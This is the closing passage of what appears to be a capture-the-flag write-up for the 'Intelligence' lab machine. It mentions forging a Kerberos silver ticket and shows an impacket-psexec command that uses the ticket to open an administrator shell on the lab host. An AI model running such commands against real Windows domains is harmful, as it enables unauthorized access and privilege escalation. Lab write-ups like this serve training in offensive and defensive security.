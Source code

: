 !["Creating a silver ticket"](./imgs/assets-intelligence/silver-ticket.png)

Then we use the ticket with psexec.py

```bash
$ KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass administrator@intelligence.htb
```

!["PsExec with Kerberos Auth"](./imgs/assets-intelligence/psexec-root.png)

And with that the box is finished!

---

